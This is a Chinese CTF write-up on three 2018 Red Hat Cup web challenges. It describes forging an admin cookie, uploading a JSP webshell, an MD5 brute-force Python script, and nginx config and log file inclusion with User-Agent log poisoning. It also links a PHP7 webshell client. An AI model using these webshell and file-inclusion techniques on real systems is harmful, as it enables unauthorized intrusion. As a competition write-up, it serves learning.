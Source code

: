```yaml
---
title: 2018红帽杯三道Web
date: 2018-05-06 00:00:00
categories:
- CTF/Web
tags: 日志包含 md5爆破 CknifePHP7
--- 
```


三道质量不高的Web题目

## simple upload

- 修改cookie：admin=1登录
- 上传点更改文件类型`image/jpeg`，上传木马
- 发现报错页面是tomcat，上传jsp一句话
- 上菜刀，根目录找到flag

## shopping log

通过提示加上三个请求头：

```
"Accept-Language": "ja",
"Referer":"www.DWW.com",
"Host":"www.tmvb.com"
```

得到一个检查四位单号的页面，验证码需要爆破md5，这里为了不验证错过采用了递归，脚本如下：

```python
import requests,re,hashlib,sys
global s

s=requests.Session()
headers = {
	"Accept-Language": "ja",
	"Referer":"www.DWW.com",
	"Host":"www.tmvb.com"
}
url1="http://123.59.141.153/5a560e50e61b552d34480017c7877467info.php"
url2="http://123.59.141.153/api.php?action=report"

def check(c):
	for j in range(10000000):
		fd = hashlib.md5()
		fd.update(str(j))
		x = fd.hexdigest()
		if(x[0:6] == c):
			return j

def send(num):
	print "[+]send the "+str(num)+" requests"
	a=s.get(url=url1,headers=headers)
	b = re.search(r"=== '(.*?)'",a.content, flags=0)
	code=b.group(1)
	realcode=check(code)
	data={
	"TxtTid":str(num).zfill(4),
	"code" : str(realcode)
	}
	print "[+]"+str(data)
	result = s.post(url=url2,headers=headers,data=data)

	if "Code" in result.content:
		print "[-]resending......"
		return send(num)
	else:
		return result.content

for i in range(9587,9589):
	print "[+]"+str(send(i))
```

提示应倒着爆破，最终尝试到9588返回flag

### biubiubiu

有点迷的一道题，登录上去的访问网页的输入框研究半天，请求打到自己服务器上没发现什么多余的，回头看文件包含。尝试包含了nginx配置文件成功：

```
/etc/nginx/nginx.conf
```

尝试包含日志成功

```
/var/log/nginx/access.log
```

- 因为本题是i春秋的环境，日志过大直接重新创建环境
- 思路非常清楚了，在UA里写一句话，然后菜刀连文件包含的日志
- getshell以后找到config，flag在数据库里。
- 这里有个要注意的是先打phpinfo，发现是php7，于是换用php7的菜刀

[CknifePHP7.rar](https://pan.baidu.com/s/1d28kqi)
